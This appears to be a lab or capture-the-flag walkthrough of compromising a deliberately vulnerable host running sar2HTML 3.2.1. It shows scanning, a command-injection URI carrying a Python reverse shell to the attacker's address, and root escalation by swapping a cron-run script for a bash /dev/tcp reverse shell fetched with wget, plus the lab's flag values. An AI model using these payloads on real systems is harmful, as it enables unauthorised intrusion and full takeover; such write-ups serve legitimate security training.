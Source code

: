 ```yaml
---
custom_edit_url: null
---
```



## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -Pn -p- -A -T5 192.168.179.35
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 13:15 EDT
Warning: 192.168.179.35 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.179.35
Host is up (0.067s latency).
Not shown: 64075 closed tcp ports (conn-refused), 1458 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 319.29 seconds
```

There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

### Directory enumeration

Let's perform some directory brute forcing using `ffuf` to check what web directories are present.

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.179.35/FUZZ
________________________________________________

.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 65ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 791ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 64ms]
phpinfo.php             [Status: 200, Size: 95464, Words: 4716, Lines: 1170, Duration: 118ms]
robots.txt              [Status: 200, Size: 9, Words: 1, Lines: 2, Duration: 66ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
:: Progress: [4614/4614] :: Job [1/1] :: 598 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

Let's visit the `robots.txt` page. There's usually something useful there.

![1](https://github.com/user-attachments/assets/6d51d15a-54a7-4127-9843-1d6e0b4560fb)

The `sar2HTML` page is being blocked for crawlers. That is why it did not show up in the `ffuf` scan. 

Let's visit the page.

![2](https://github.com/user-attachments/assets/caf167bf-bfa6-4c50-9fcb-bda6f94fe510)

&nbsp;

## Exploitation

### Searching for relevant exploit.

We can look up exploits for sar2HTML version `3.2.1`.
[This](https://www.exploit-db.com/exploits/47204) exploit shows up:

![3](https://github.com/user-attachments/assets/233e3976-00af-41cd-9de9-098ffd8186b8)

Let's check the exploit using the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;ls
```

![4](https://github.com/user-attachments/assets/a27a511b-071a-465f-ac79-c29c960bcabf)

### Obtaining a reverse shell

In order to obtain a reverse shell, we need to first set up a `nc` listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
```

Now, we can enter the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.234",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Let's check back on our listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 34638
bash: cannot set terminal process group (975): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sar:/var/www/html/sar2HTML$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
www-data@sar:/var/www/html/sar2HTML$ cat /home/local.txt
cat /home/local.txt
e6f25e304acccc7b3b947383c66f2aef
```

### Privilege Escalation

#### Checking scheduled Cron jobs

We can check if there are any Cron jobs scheduled by displaying the contents of the `/etc/crontab` file.

```
www-data@sar:/var/www/html/sar2HTML$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

The `./finally.sh` file is executed every 5th minute with `root` privileges.

We can verify this using [crontab guru](https://crontab.guru/).

![5](https://github.com/user-attachments/assets/49a4c19a-6d43-435f-812a-b897baa8ee60)

Unfortunately, we cannot edit the `./finally.sh` file.
Let's check what it is doing.

```
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
```

So it execute another file called `./write.sh`.

#### Exploiting scheduled Cron job via shared object injection

Let's delete this `./write.sh` file.

```
www-data@sar:/var/www/html$ rm write.sh
rm write.sh
```

Now, in our attacker machine we can create another `./write.sh` file containing a reverse shell script.

```bash title="write.sh"
#!/bin/bash  

bash -i >& /dev/tcp/192.168.45.234/9998 0>&1
```

Next we can transport the file to the target.

```
www-data@sar:/var/www/html$ wget http://192.168.45.234:8000/write.sh
wget http://192.168.45.234:8000/write.sh
--2024-08-10 23:29:05--  http://192.168.45.234:8000/write.sh
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60 [text/x-sh]
Saving to: 'write.sh'

     0K                                                       100% 15.0M=0s

2024-08-10 23:29:05 (15.0 MB/s) - 'write.sh' saved [60/60]
```

Let's make the file executable.

```
www-data@sar:/var/www/html$ chmod +x write.sh
chmod +x write.sh
```

Now, we have to set up a `nc` listener and wait.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
```

After some time the Cron job will be executed and we will obtain a reverse shell with `root` privileges.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 54846
bash: cannot set terminal process group (3286): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# 
```

### proof.txt

```
root@sar:/var/www/html# cd /root
cd /root
root@sar:~# 
```

```
root@sar:~# cat proof.txt
cat proof.txt
c07959ab9321d3dd66064bddacc012ea
```
